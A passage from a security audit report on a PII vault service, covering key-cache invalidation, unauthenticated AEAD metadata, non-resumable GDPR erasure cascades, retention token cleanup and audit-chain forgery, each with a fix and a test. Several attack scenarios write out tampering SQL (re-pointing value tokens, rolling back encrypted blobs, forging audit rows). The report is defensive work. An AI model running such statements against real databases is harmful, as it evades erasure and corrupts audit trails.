| OPS-CLI-CONFIG-9 | LOW | `migrate-databunker` takes the Databunker root token and a Sunder bearer credential as argv flags (its own package doc spells both out on one command line), so both are readable via `/proc/<pid>/cmdline`, `ps auxww`, shell history and CI logs; `benchmark/bench.go` does the same with `-cred`. The token→CID mapping CSV is created with `os.Create` (0666 & umask), unlike `bootstrap -credential-file` and the keystore, which use explicit 0600; it is also accumulated wholly in memory and written only after the last page, so an interrupted run (`os.Exit(1)` at `:134`) loses the mapping entirely | `migrate/databunker/main.go:11-16`, `:79-92`, `:96-97`, `:118-124`, `:134`, `:150`; `benchmark/bench.go:43,51-52`; contrast `cmd/sunder/main.go:1108-1122`, `internal/crypto/keystore.go:165` | Read both secrets from the environment (`DATABUNKER_TOKEN`, `SUNDER_CRED`) with the flags kept only as a deprecated, warned fallback, and update the package doc example; same for `benchmark/bench.go`. Create the mapping with `os.OpenFile(path, O_WRONLY|O_CREATE|O_TRUNC, 0o600)` plus an explicit `Chmod(0o600)` (O_CREATE does not tighten an existing file). Stream rows to the CSV as they are produced under the existing mutex instead of buffering |
| OPS-CLI-CONFIG-11 | LOW | The sealer Deployment and the verify-audit CronJob ship with no `securityContext` at pod or container level, while `deployment.yaml` sets `runAsNonRoot`/`runAsUser`/`seccompProfile` and per-container `allowPrivilegeEscalation:false`, `readOnlyRootFilesystem:true`, `capabilities.drop:[ALL]`. Under `restricted` Pod Security Admission the Deployment rejection is visible but the CronJob is admitted and only its Jobs fail at creation time, so daily tamper-evidence verification stops silently. (Correction to the filed framing: the anchor and retention CronJobs carry only the POD-level block, so restricted PSA would reject four workloads, not two) | `deploy/helm/sunder/templates/sealer.yaml`; `deploy/helm/sunder/templates/cronjobs.yaml:99-125` (verify-audit), `:27-33`, `:72-78` (anchor/retention, pod-level only); contrast `deployment.yaml:17-21`, `:48-51` | Factor the two blocks into `_helpers.tpl` (`sunder.podSecurityContext` / `sunder.containerSecurityContext`) and reference them from all five workloads; the verify-audit Job needs read-only access to the anchors PVC, so `fsGroup: 65532` plus `readOnlyRootFilesystem: true` suffices. Add a `helm template \| kubeconform`/kyverno policy check to CI so a workload without the baseline fails |
| GAP-5 | LOW | **PLAUSIBLE (raised by completeness critic; not independently verified).** The playground inbox scopes deliveries by testing `mine[delivery.CID]` where `mine` is built from EVERY value in the session's variable map, and `newSessionVars` seeds every session with the constant `demo_name: "Ana Horvat"` — so an unauthenticated `POST /hooks/erasure` with `cid:"Ana Horvat"` (accepted and stored as `"unverified"` when no `PLAYGROUND_WEBHOOK_SECRET` is set) lands in every visitor's panel and, repeated 50× at 120 req/min, evicts every genuine delivery. Not XSS: CSP is `script-src 'self'` with no `'unsafe-inline'` and `app.js` observes a no-`innerHTML` rule | `internal/playground/inbox.go:58-75` (`mine` at `:61-64`, match at `:68`), `:77-88`, `:90-125`, `:26`, `:47-51`; `internal/playground/session.go:110-120` (`:113`); `internal/playground/run.go:82-84`; `internal/playground/server.go:124`, `:195-197` | Scope the inbox on values that are actually CIDs: have `Session` keep a `cids map[string]bool` populated by `handleRun` only from captures whose variable name ends in `_cid`, and pass that to `inbox.list` instead of `sess.Vars()`. Reject a delivery in `handleWebhook` whose `cid` does not match the vault's CID shape before storing it, render `"unverified"` deliveries in a visually distinct section as inbox.go:36-38 already intends, and make `PLAYGROUND_WEBHOOK_SECRET` mandatory under `-public` |
| CRYPTO-8 | INFORMATIONAL | AES-256-GCM with 96-bit random nonces is the default for one long-lived `pii-kek` shared by every envelope (attribute blobs, version history, value tokens, file DEKs, portal outbox payloads, and a full re-seal of the corpus per rotation), with no invocation accounting, no usage-based rotation trigger, and no way to tell an operator how close a key version is to the NIST SP 800-38D 2^32 random-IV budget. The safest configuration (XChaCha20-Poly1305, 24-byte nonces, where random nonces are unconditionally safe) exists but is opt-in. No deployment is shown to be near the bound, and no counter exists to observe one | `internal/crypto/engine.go:83-93`; `internal/crypto/pii.go:50-55`; `internal/config/config.go` (`SUNDER_PII_ALG`); seal sites `internal/service/contacts.go:612`, `versions.go:44`, `valuetoken.go:466`, `files.go:142`, `portal.go:205`, `rekey.go:281,323` | Make `AlgXChaCha20` the default for new deployments — the read path already follows the per-row `pii_alg`, so mixed corpora are supported (docs/RUNBOOK-ALG-MIGRATION.md). Export a per-key-version seal counter (`sunder_kek_seals_total{version=…}`) incremented in `PIIBox.Encrypt`/`SealBytes` and the value-token/record-key paths, and warn past a configurable threshold (e.g. 2^30) so rotation is driven by usage, not only by incident |

## 6. Data Integrity & Database Findings

Three findings in this category are written up elsewhere and are not repeated: **DB-TXN-4** (consent/share/link writes landing after the erasure sweeps them) is merged into GDPR-ERASURE-5 in §4; **DB-TXN-5** (the OTI allowlist strip as an unlocked post-commit read-modify-write) is merged into AUTHZ-4 in §5; and **DB-TXN-7** (the rekey sweep re-inserting search tokens for a person erased mid-sweep, with `Lookup` carrying no `erased_at` filter) is the same defect as **GDPR-ERASURE-2** in §3.

### CONCURRENCY-CORE-4 — `KeyRing` invalidation is process-local, so a key `Retire` on one node is invisible to other replicas for up to 30 seconds and silently orphans the search tokens they mint in that window
**Severity:** MEDIUM | **Confidence:** LIKELY | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/keyring.go:95-99` (Invalidate), `:85-93` (InvalidateThrottled), `:30` (`keyRingTTL = 30s`), `:105`/`:121` (TTL check), `:185` (Rotate), `:194-223` (Retire, including the destructive `DELETE FROM person_tokens`); `internal/service/contacts.go:129-160` (buildIdents), `:288-292` (registerTx dedup probe); `cmd/sunder/main.go:595-608` (keysCmd, no guard)

**Problem.** `KeyRing.Rotate` (keyring.go:185) and `KeyRing.Retire` (keyring.go:221) call `k.Invalidate()`, which only nils **this process's** in-memory map. Every other replica — and the long-lived `serve` process when the operator runs `sunder keys retire` from a separate CLI process, which is the normal way it is done — keeps serving from its own cached snapshot until `time.Since(k.fetchedAt) > keyRingTTL` (30s). There is no generation counter, no LISTEN/NOTIFY, no epoch column, no cross-process invalidation of any kind. Meanwhile `Retire` performs a destructive, irreversible `DELETE FROM person_tokens WHERE kind=$1 AND key_version=$2` (keyring.go:212-217) — a one-shot purge with no predicate covering rows written afterwards — while `buildIdents` mints new `person_tokens` rows stamped with a `key_version` taken from the stale ring and computes its dedup probe set from the same stale live-version list.

**Why it matters.** A row written under a version that has already been RETIRED elsewhere is never deleted by that DELETE (it did not exist yet) and is never probed again afterwards, because `Versions()` stops returning the retired version. The unique index is on `(kind, token)` and `T_v1 ≠ T_v2`, so nothing catches the resulting duplicate person.

**Failure / attack scenario.**
1. Two replicas A and B share one Postgres. Both have a `KeyRing` cached with `hmac-email` live = `[v1 ACTIVE]`.
2. Operator runs `sunder keys rotate -kind hmac-email` (a third process). v2 becomes ACTIVE, v1 becomes RETIRING. Only that CLI process invalidates.
3. Operator immediately runs `sunder keys retire -kind hmac-email -version v1` (the documented cure for a leaked key; `keysCmd` has no guard against retiring a just-rotated version). `Retire` sets v1 RETIRED and executes `DELETE FROM person_tokens WHERE kind='email' AND key_version='v1'`, purging every existing v1 token.
4. Within the next 30 seconds, replica B — whose ring still says live=`[v1]`, active=v1 — serves `POST /v1/contacts` for `bob@example.com`. `buildIdents` (contacts.go:133-137) computes the write token under v1 and the dedup probe set as `{T_v1(bob)}`. `registerTx`'s probe `SELECT person_id FROM person_tokens WHERE kind='email' AND token = ANY($2)` (contacts.go:288-292) finds nothing (the v1 rows were just purged), so it creates person P1 and inserts `(kind='email', token=T_v1(bob), key_version='v1')`. The `Retire` DELETE has already run, so this row survives.
5. t+31s: B refreshes and now has live=`[v2]`. Every subsequent lookup and dedup probe for `bob@example.com` computes `T_v2(bob)` only. `T_v1(bob)` is never queried again and never purged.
6. `bob@example.com` is now unfindable via `POST /v1/lookup`, and a re-registration of the same address does not match, so `registerTx` creates a SECOND person P2 for the same identifier.

**Impact.** Breaks the schema's central dedup invariant ("an email/phone maps to exactly one person"). The person written during the stale window becomes permanently unreachable through lookup — their record is orphaned, so a later Article 15 access or Article 17 erasure request for that address resolves to the duplicate P2 and silently leaves P1's PII blob, files and value tokens in place. No error is raised at any point; the two persons look normal. The requirement that the operator retire a version some replica still has cached as ACTIVE keeps the window narrow, but the outcome is a silent permanent orphan.

**Root cause.** A read-through cache with a purely local invalidation primitive in a deployment the code explicitly supports as multi-replica: `Invalidate()` mutates one process's map while the authoritative state change (`keys.status` plus a destructive DELETE) happens in shared Postgres. Nothing validates the cached snapshot against the database before using it to stamp durable rows, and `Retire`'s purge is a one-shot DELETE rather than a predicate that also covers rows written after it.

**Fix.** Make invalidation cross-process: give the `keys` table a monotonically increasing generation (a `key_epoch` row, or `SELECT max(created_at), count(*) FROM keys`) that `Versions`/`Newest` verify cheaply before serving a cached ring, or use Postgres LISTEN/NOTIFY on a `keys_changed` channel to invalidate every replica synchronously. Independently, make `Retire` safe by construction: record a `retiring_since` timestamp on the keys row, refuse to retire a version that became RETIRING less than `2 * keyRingTTL` ago, and bound the purge by that timestamp so tokens minted during the window are still swept. Lowering `keyRingTTL` does not fix this — it only narrows the window.

**Test required.** Two-`KeyRing` test against one Postgres: build ringA and ringB over the same pool and prime both by calling `Versions(hmac-email)` so both cache v1. Call `ringA.Rotate` then `ringA.Retire(hmac-email, v1)`. Without advancing time, use ringB to drive `Contacts.Register` for a fresh address, then force `ringB.Invalidate()` and assert `Contacts.Lookup` for that same address returns the SAME cid (it returns `ErrNotFound` today) and that a second `Register` for the address does not create a second `persons` row.

### CRYPTO-4 — `value_tokens` AEAD does not authenticate the `cid`, so a database-write attacker can re-point a sealed value at another person and evade Article 17 erasure
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/valuetoken.go:466-469` (Seal, AAD `"valtok\x00"+client.Scope+"\x00"+token`), `:120-137` (Detokenize — SELECT on `token` and `scope` only, never reads or checks `cid`); erasure consumers `internal/service/gdpr.go:521-529`, `:822-823` (retention sweep); `internal/store/migrations/0032_value_tokens_cid.sql` (adds the column, no FK, no CHECK); contrast the hardened analogue `internal/service/files.go:534-539` (`dekAAD(fileID, cid)`) and `internal/crypto/pii.go:57-62`

**Problem.** Migration 0032 added `value_tokens.cid` and made it load-bearing for erasure ("a token minted with a `cid` is bound to that person and is DELETED by their Article 17 erasure", docs/THREAT-MODEL.md). The column has no foreign key, is not part of the AEAD associated data, and no read path validates it: `Detokenize` opens the ciphertext with an AAD built only from scope and token, and `DetokenizeBulk` simply loops over it. The binding between a sealed value and the person it belongs to is therefore unauthenticated plaintext metadata.

**Why it matters.** The same DB-write adversary is explicitly in the project's model elsewhere: `files.go:534-539` binds the file DEK's AAD to both file id and cid precisely because "a DB attacker who repoints `files.cid` … no longer unwraps", and `crypto/pii.go:31-34` makes the same argument for the PII blob. Value tokens are the remaining gap.

**Failure / attack scenario.**
1. A tokenized IBAN belongs to person A: row `token=VT-…, scope=crm, cid=CID-AAA`.
2. An attacker with SQL write access (rogue DBA, an injection sink, a restored backup edited before re-import) runs `UPDATE value_tokens SET cid='CID-BBB' WHERE token='VT-…'` — or `SET cid=NULL`.
3. Person A exercises Article 17. `erasePerson` (gdpr.go:528-529) runs `DELETE FROM value_tokens WHERE cid IN (SELECT cid FROM cids WHERE person_id=$1)` and finds nothing. The retention sweep's `WHERE cid = ANY($1)` (gdpr.go:822-823) likewise misses.
4. The row survives erasure with its ciphertext intact, and the KEK still exists (erasure crypto-shreds `person_record_keys`, not the KEK), so `POST /v1/tokens/{token}` by any credential in scope `crm` with `tokens.read` still returns A's plaintext IBAN — the open succeeds because the AAD never mentioned A.
5. The audit trail attributes the read to B (or to nobody).

**Impact.** Personal data that Article 17 was supposed to destroy remains readable through the ordinary API after a completed, audited erasure, and the same edit silently re-attributes a sensitive value to a different data subject. It needs SQL write access, hence MEDIUM.

**Root cause.** The AAD was fixed at `valtok\0scope\0token` when value tokens had no subject binding (migration 0025) and was not revisited when 0032 added `cid` and made erasure depend on it. `rekeyVaults` (rekey.go:270-290) reconstructs that legacy AAD verbatim, so the format is pinned in two places.

**Fix.** Include the subject in the AAD: `"valtok\x01" + scope + "\x00" + token + "\x00" + cid` (a new domain byte so legacy rows stay openable under the old AAD during migration), and have `Detokenize` select the `cid` and pass it in, so a tampered row fails to open instead of disclosing. Re-seal legacy rows under the new AAD in `rekeyVaults` and record the AAD version on the row. Cheaper stop-gap: add the FK `value_tokens.cid → cids(cid)` and re-check ownership at read time — that stops the NULL/foreign-cid edit but not an edit to another cid in the same scope.

**Test required.** `internal/service/valuetoken_test.go`: tokenize a value with `cid` = person A's cid; `UPDATE value_tokens SET cid=NULL` directly on the pool; run `GDPR.EraseWithCascade` for A; assert `Detokenize` now returns `ErrNotFound`/an AEAD failure rather than the plaintext, and that the row does not survive the erasure.

### CRYPTO-5 — Attribute version-history blobs share their AAD with the live blob, so a database-write attacker can roll a person's attributes back to an older generation undetectably
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/versions.go:34-60` (appendVersion — stores `oldBlob`, `oldKeyID`, `oldAlg` byte-for-byte into `cid_blob_versions`), `internal/service/contacts.go:589-628` (mergeIntoBlob), `internal/service/versions.go:118-128` (GetVersionAttribute — decrypts with `c.PII.Decrypt(ctx, cid, blob, keyID, alg)`), `internal/crypto/pii.go:57-62` (`aad = boundTo|keyID[|alg]`) and `:80-90` (Decrypt); `internal/service/rekey.go:335-380`

**Problem.** `aad()` binds a blob to (cid, key id, algorithm) and nothing else. A version snapshot is the previous live blob copied verbatim, together with its own `key_id`/`alg`, so for a given cid every historical generation and the current row are AEAD-interchangeable ciphertexts: any `cid_blob_versions.blob` decrypts perfectly when written into `cids.pii_encrypted` with its stored `pii_key_id`/`pii_alg`, and vice versa. `GetVersionAttribute` confirms the symmetry by calling the identical `Decrypt`. The AAD comment (pii.go:31-34) claims the binding stops an attacker with UPDATE access from transplanting ciphertext; it stops transplants across rows, not across time. `rekey.go:335-380` re-encrypts version blobs with the very same `PII.Encrypt(cid, …)` call, so re-keying does not separate the two domains either.

**Failure / attack scenario.**
1. `SUNDER_VERSIONS_KEEP=5` is on. A person's address/name is corrected (Article 16 rectification): `mergeIntoBlob` snapshots the stale blob into `cid_blob_versions (cid, version_no=3)` and writes the corrected one to `cids`.
2. An attacker with SQL write access runs `UPDATE cids c SET pii_encrypted = v.blob, pii_key_id = v.key_id, pii_alg = v.alg FROM cid_blob_versions v WHERE v.cid = c.cid AND v.version_no = 3`.
3. Every subsequent `GET /v1/contacts/{cid}/attributes/{name}` decrypts cleanly and returns the stale, pre-rectification values. `PIIBox.Decrypt` cannot tell, because the AAD it recomputes (cid + key id + alg) is exactly what the ciphertext was sealed with.
4. The only trace is `cids.updated_at`, which the same UPDATE can set, and the audit chain — which records reads, not that the row's content regressed.

**Impact.** Silent, cryptographically undetectable rollback of any person's attribute set to a prior generation: a rectification (Art. 16) or a consent-driven correction can be reverted, and a retention wipe can be undone by restoring a version blob before the version rows are pruned. Because the value decrypts, every downstream consumer (attribute reads, OTI attribute sharing, shared records, exports) serves the reverted data as authentic. Same DB-write adversary as CRYPTO-4.

**Root cause.** Version history (migration 0027 / F6) was added by reusing the live blob's ciphertext and its AAD unchanged, so the AAD carries no generation discriminator; `Decrypt` takes only `cid, keyID, alg` and has no parameter through which a version could be bound.

**Fix.** Add a generation discriminator to the AAD: seal live blobs with `aad(cid+"\x00live", keyID, alg)` and version blobs with `aad(cid+"\x00v"+version_no, keyID, alg)`. That means `appendVersion` must re-seal (decrypt under the live AAD, re-encrypt under the version AAD) inside the same transaction rather than copying bytes — it already holds the plaintext in `mergeIntoBlob`. Add an AAD-format version column (or reuse the `pii_alg`-style versioning) so pre-existing rows keep opening under the legacy AAD, and re-seal them during `keys rekey -reencrypt-pii`, which already rewrites every version blob (rekey.go:335-380).

**Test required.** `internal/service/versions_test.go`: with `VersionsKeep=3`, register attributes `{name:"old"}`, update to `{name:"new"}` (creating version 1), then copy `cid_blob_versions.blob/key_id/alg` for version 1 over `cids.pii_encrypted/pii_key_id/pii_alg` with a direct pool `Exec`, and assert `GetAttribute` fails to decrypt (AEAD error) instead of returning `"old"`.

### GDPR-ERASURE-4 — A cascading erasure is neither atomic nor resumable, and the parent's own erasure deletes the `person_links` rows that are the only map to the un-erased children
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/gdpr.go:385-438` (EraseWithCascade: `personForClientCID` at `:389`, child listing `:395-415`, parent erase `:421-424`, child loop `:425-436`), `:556` (`DELETE FROM person_links …` inside erasePerson), `:472-474` (idempotency guard), `:582` (audit detail), `:590` (inline `DeliverPending`); entered from `internal/api/gdpr.go:54-72` with `r.Context()`; `internal/service/contacts.go:462-464` (tombstone → ErrNotFound)

**Problem.** `EraseWithCascade` lists the parent's children once, into a Go slice (gdpr.go:395-415), then erases the parent in its own transaction (`:421`) and each child in its own separate transaction (`:430`). There is no enclosing transaction, no durable work record and no resume path. Two properties make a partial cascade unrecoverable. (a) The parent's transaction deletes the link graph — `DELETE FROM person_links WHERE parent_person=$1 OR child_person=$1` (gdpr.go:556) — so once it commits, the only durable record that C was a child of P is gone; the child list survives solely as an in-process slice. (b) Re-issuing the request cannot resume: `EraseWithCascade` begins with `personForClientCID` (gdpr.go:389), which returns `ErrNotFound` for a tombstoned person ("A tombstoned person is gone for every caller-facing path", contacts.go:462-464), so a retry for the same parent CID is a 404 and never reaches the child loop. Even the `errorsIsValidation` tolerance at gdpr.go:430 — which exists precisely so an already-erased child is skipped — is unreachable, because the parent check fires first.

The child loop is also easy to interrupt: it runs on the HTTP request goroutine under `r.Context()` (api/gdpr.go:65), and every `erasePerson` ends with the inline `_, _ = g.DeliverPending(ctx)` (gdpr.go:590), which can spend up to 100 × `SUNDER_WEBHOOK_TIMEOUT` (default 5s) per child against an unresponsive endpoint.

**Failure / attack scenario.** Guardian P has children C1, C2, C3 linked with `link_type 'guardian'` in scope `crm`. The officer POSTs `/v1/dsr/erase {"cid":"<P>","cascade":["guardian"]}`.
1. T0 — gdpr.go:395 lists C1, C2, C3 into `children` (Go memory only).
2. T1 — gdpr.go:421 `erasePerson(P)` commits. Among other statements it runs `DELETE FROM person_links WHERE parent_person=P OR child_person=P` (gdpr.go:556) — the guardian relationships to C1..C3 no longer exist in the database. Then the inline `DeliverPending(ctx)` at gdpr.go:590 spends ~25s on a slow webhook endpoint.
3. T2 — gdpr.go:430 `erasePerson(C1)` commits, and its own inline `DeliverPending(ctx)` spends another ~25s.
4. T3 — at ~50s the officer's HTTP client times out and closes the connection; Go cancels `r.Context()`.
5. T4 — `erasePerson(C2)` calls `g.Pool.Begin(ctx)` (gdpr.go:449), which fails with `context canceled`. That is not an `ErrValidation`, so gdpr.go:431 returns `fmt.Errorf("cascade erase of %s: %w", C2, err)`. C2 and C3 are never touched; their blobs, files, record keys, tokens and shares are intact.
6. Recovery attempt: the officer retries `POST /v1/dsr/erase` for P. `personForClientCID` sees `erased_at IS NOT NULL` and returns `ErrNotFound` → HTTP 404. Querying `person_links` for P returns nothing (deleted at T1). Nothing in `erasures`, `erasure_events` or the audit chain names C2 or C3 — the `dsr.erase` detail is only `{erasure_id, scopes}` (gdpr.go:582), and the `linked` report that would have named them was in the HTTP response body that was never delivered. The identical outcome follows from a SIGTERM/pod eviction between T1 and T4.

**Impact.** Children whose data the data subject explicitly asked to be erased retain their full attribute blobs, files, record keys and search tokens, while the system reports the parent as erased and the officer has no record naming the survivors. The children are not un-erasable — each is still a normal person with its own cid, resolvable by lookup on its identifiers, and `POST /v1/dsr/erase` on the child's own cid works unchanged — but they are undiscoverable *from the parent*, and the outstanding work is unrecoverable by any query. For guardian/minor scenarios this is exactly the population the cascade feature exists to protect, and it is an accountability failure under Art. 5(2): the controller cannot demonstrate what was and was not erased.

**Root cause.** The cascade was decomposed into per-person transactions for lock-scope reasons but no durable work record was introduced to make the decomposition resumable, and the destructive step that erases the work list (`DELETE FROM person_links`) is executed by the FIRST unit rather than the last. The parent's idempotency guard (`ErrValidation: person already erased`, gdpr.go:472-474) is applied asymmetrically — tolerated for children (`:430`) but fatal for the parent (`:423`) — which turns the natural retry into a hard 404.

**Fix.**
1. Persist the plan before touching anything: in the parent's transaction, after inserting the `erasures` row, insert one row per cascaded child (an `erasure_cascade(erasure_id, child_person, status)` table, or `erasure_events` with a distinct kind), so the plan survives the crash and the link deletion.
2. Defer the link deletion: erase the children first and the parent last, or move `DELETE FROM person_links …` (gdpr.go:556) so the parent's links to as-yet-unerased cascade targets are removed only once those targets are done.
3. Make retry work: resolve the person with a variant of `personForClientCID` that tolerates a tombstone, and treat `ErrValidation: person already erased` on the parent exactly as it is treated on a child (gdpr.go:430), so a re-issued request resumes the outstanding children instead of 404-ing.
4. Take the cascade off the cancellable request context: run it under `context.WithoutCancel(r.Context())` with its own deadline, and remove the per-person inline `DeliverPending` (see GDPR-ERASURE-3 in §3 and QUEUE-WORKER-3 in §7) so the loop is not gated on webhook latency.
5. Add a `dsr cascade-status` / sweep that re-drives any incomplete cascade rows.

**Test required.** Create P with children C1, C2, C3 linked `guardian`. Inject a failure into `erasePerson` for C2 (a test-only hook, or cancel the ctx after C1 commits). Call `EraseWithCascade(ctx, client, P, ["guardian"])` and assert it errors. Then assert (a) `SELECT count(*) FROM person_links WHERE parent_person=P` is still 3, OR a durable cascade plan row exists naming C2 and C3; (b) re-invoking `EraseWithCascade` for P with the same cascade types succeeds and leaves `persons.erased_at` non-NULL for C2 and C3 with their blobs NULL. Add a regression test asserting that after a successful full cascade the operation is idempotent (a second call is a no-op, not a 404).

### GDPR-ERASURE-7 — Retention's search-token cleanup is single-shot: a person whose token deletion was blocked once by a then-live share, file, link or value token keeps their searchable identifiers forever
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/service/gdpr.go:775-882` (RunRetention): wipe at `:785-791` producing `wipedCIDs`, `person_tokens` DELETE at `:834-858` driven entirely by `wipedCIDs`; other `person_tokens` deletes `internal/service/gdpr.go:516` (Article 17 only) and `internal/service/keyring.go:214` (retired key version only); exposure `internal/service/lookup.go:140`, `:225-226`; `internal/service/shares.go:219-225` (PruneShares)

**Problem.** The retention sweep wipes blobs with `UPDATE cids c SET pii_encrypted=NULL, pii_key_id=NULL … WHERE … c.pii_encrypted IS NOT NULL AND c.updated_at < now() - make_interval(days => rp.contacts_ttl_days) RETURNING c.cid` (gdpr.go:786-791), collects the affected CIDs into `wipedCIDs`, and runs the whole cleanup block only `if wiped > 0`. The identifier-token cleanup is then scoped to exactly those CIDs: `DELETE FROM person_tokens pt WHERE pt.person_id IN (SELECT person_id FROM cids WHERE cid = ANY($1)) AND NOT EXISTS (…blob…) AND NOT EXISTS (…live file…) AND NOT EXISTS (…live share…) AND NOT EXISTS (…link…) AND NOT EXISTS (…live value token…)` (gdpr.go:834-856).

The five `NOT EXISTS` guards are correct in intent — a person with a live file or standing share must stay resolvable — but the deletion only ever gets ONE chance, because `wipedCIDs` is the sole entry point and a CID can be wiped only once: after the first sweep its `pii_encrypted` is NULL, so the UPDATE's `c.pii_encrypted IS NOT NULL` predicate excludes it from every future run. When any guard fails on that single attempt, the person's `person_tokens` rows are skipped and no later sweep revisits them — the retention path has no scan keyed on "person with no live data but surviving tokens".

**Failure / attack scenario.** Scope `crm` has `contacts_ttl_days = 365`. Person P was registered with e-mail and phone; a partner share for P was created with a 90-day TTL on day 300.
1. Day 365, sweep #1: P's blob is 365 days past `updated_at`, so the UPDATE at gdpr.go:786 wipes it and returns P's cid in `wipedCIDs`. The token DELETE at `:834` runs, but the `NOT EXISTS (SELECT 1 FROM shared_records sr … WHERE … sr.revoked_at IS NULL AND sr.expires_at > now())` guard (gdpr.go:844-847) blocks it because the share is still live (it expires on day 390). 0 rows deleted. P keeps `person_tokens` rows for kinds `email` and `phone` (and `name`/`name_phonetic`/`phone_suffix` if the search features are on).
2. Day 390: the share expires. P now has no blob, no live share, no files, no links, no value tokens — literally no data except the search tokens.
3. Day 391 and every sweep thereafter: the UPDATE selects nothing for P (`c.pii_encrypted IS NOT NULL` is false), so `wipedCIDs` never contains P's cid, so the DELETE never evaluates P again. `PruneShares` (shares.go:219-225) removes the dead share row on day 420, and P's `person_tokens` rows remain — permanently.
4. `POST /v1/lookup {"email":"<P's address>"}` still matches P at lookup.go:140, and lookup.go:225-226 resolves P's surviving `cids` row for the caller's scope → HTTP 200 with the pseudonym, years after every scrap of P's data was retention-wiped.

**Impact.** Keyed search tokens — HMACs of the person's e-mail, phone and name, which the code and migration 0016 treat as personal data — outlive every other trace of the person, defeating Art. 5(1)(e) storage limitation and leaving a permanent membership oracle: any client with the `lookup` action can confirm that an address or phone number belongs to a contact of this vault and receive the stable pseudonym that keys the retained `audit`, `audit_read_buckets`, `oti` and `cids` rows. The condition is invisible: the sweep reports success, and the only way to detect it is an ad-hoc query for persons with tokens and no live data. It also strictly widens the blast radius of GDPR-ERASURE-2 (§3), since resurrected tokens land in the same unreachable state.

**Root cause.** The cleanup was attached to the wipe *event* rather than to the invariant it enforces. `wipedCIDs` is an edge-triggered signal (a CID transitions blob→NULL exactly once) driving a level-triggered condition ("this person has no live data anywhere"). Any transient blocker at the instant the edge fires becomes a permanent skip, and the sweep has no second pass.

**Fix.** Make the token cleanup its own level-triggered pass, run every sweep and not scoped to `wipedCIDs`:

```sql
DELETE FROM person_tokens pt
 WHERE EXISTS (SELECT 1 FROM cids c JOIN retention_policies rp ON rp.scope=c.scope
                WHERE c.person_id = pt.person_id)
   AND NOT EXISTS (... the five existing guards, unchanged ...)
```

Keeping all five `NOT EXISTS` clauses preserves the current safety property; only the candidate set changes. Bound the statement (a `LIMIT`/batched CTE) if the table is large, and add a `retention.run` audit detail field counting tokens deleted so the pass is observable. As a one-off for existing deployments, run the same DELETE unscoped to clear the already-stranded rows.

**Test required.** Set `contacts_ttl_days=0` for scope `crm`; register P; create a share for P with a short TTL; run `RunRetention` and assert P's `person_tokens` survive (the existing S6 guard). Advance past the share's expiry (or update `expires_at` directly), run `RunRetention` a second time, and assert `SELECT count(*) FROM person_tokens WHERE person_id=$1` is 0 and that `Contacts.Lookup` by P's e-mail returns `ErrNotFound`. Repeat the shape with a live file (`gc_at` NULL) and with a live value token as the initial blocker.

### AUDIT-CHAIN-2 — A forged `audit.reads_hourly` INSERT permanently prevents an hour's read buckets from ever being chained, and permanently breaks read-bucket verification
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY
**Location:** `internal/audit/reads.go:205-225` (closeOneHour hour selection, the `NOT EXISTS` skip at `:211-219`), `:268` (the hour string the closer writes), `:296-297` (recorded-digest query), `:334-336` (sealed-only bucket read), `:384-386` (orphan check); `internal/store/migrations/0033_audit_hash_v2_and_guards.sql:29-39`

**Problem.** `closeOneHour` deliberately skips any hour for which a row with `action='audit.reads_hourly'` and a matching `detail->>'hour'` already exists, to avoid summarising an hour twice. The existence check trusts the `audit` table, into which the API's DB role must be able to INSERT, and the filter is byte-compatible with what the closer writes (`to_char(b.bucket_start AT TIME ZONE 'UTC','YYYY-MM-DD"T"HH24:MI:SS"Z"')` at `:211-219` vs `hour.UTC().Format(time.RFC3339)` at `:268`), so a hand-crafted marker matches. Nothing constrains who may write such a row or for which hour: `audit_reads_hourly_idx` (0033) is a plain non-unique expression index and there is no INSERT trigger on `audit`. The marker does not even need to be sealed — the recorded-digest query at `:296-297` selects every row with that action regardless of hash. Correspondingly, `VerifyReadBuckets` (`:384-386`) treats a recorded hour with no sealed buckets as a hard failure ("chained hourly row exists but its sealed buckets are gone"). Migration 0033 closed the mirror-image hole (forging a pre-sealed bucket row) but left this one open, and it is the stronger of the two: it both suppresses attestation and poisons verification.

**Failure / attack scenario.** Verified against PostgreSQL 16.
1. A real read hour exists: `INSERT INTO audit_read_buckets (client_id,user_id,cid,action,bucket_start,count) VALUES ('crm','op1','CID-A','attributes.read', date_trunc('hour', now()-interval '2 hours'), 7)` — 7 genuine attribute reads of CID-A by operator `op1`.
2. With INSERT privilege only: `INSERT INTO audit (ts, client_id, action, detail) VALUES (now(),'_audit','audit.reads_hourly','{"hour":"<that hour, RFC3339>","buckets":0,"events":0,"digest":"00"}')`.
3. `CloseReadBuckets` → `hours=0, err=nil`, and `SELECT count(*) FROM audit_read_buckets WHERE sealed_at IS NOT NULL` → 0: the real hour is skipped by the `NOT EXISTS` filter and is never sealed, never digested, never chained — on every subsequent cycle, forever.
4. `VerifyReadBuckets` → `bad="2026-08-26T22:00:00Z", why="chained hourly row exists but its sealed buckets are gone"`; the buckets stay `sealed_at IS NULL` so they never enter `hrows` (`:334-336`), while the forged hour survives in `recorded` and falls through to `:384-386`. `sunder verify-audit` exits non-zero from now on.
5. Unrepairable: the forged `audit` row cannot be deleted (the `audit_no_update` append-only trigger) and the hour can never be closed.

**Impact.** Two permanent effects. First, an attacker who wants a specific hour of read activity (which cid was read, by which operator, how many times) to stay outside the hash chain gets exactly that: the buckets stay OPEN forever, and an open bucket is explicitly the one place docs/THREAT-MODEL.md:163-165 concedes counts can be inflated and `last_seen` moved without breaking any digest. Second, it converts the compliance verification tool into a permanent red light, destroying its signal value. Under the default `SUNDER_AUDIT_READS=bucketed` this covers `lookup`, `attributes.read`, `files.read`/`list`, `shares.fetch`, `tokens.read` and `versions` — the majority of audited events. Severity is MEDIUM rather than higher because the precondition is a direct SQL INSERT on `audit` (not reachable through any API path) and the forged row is itself visible in the chain.

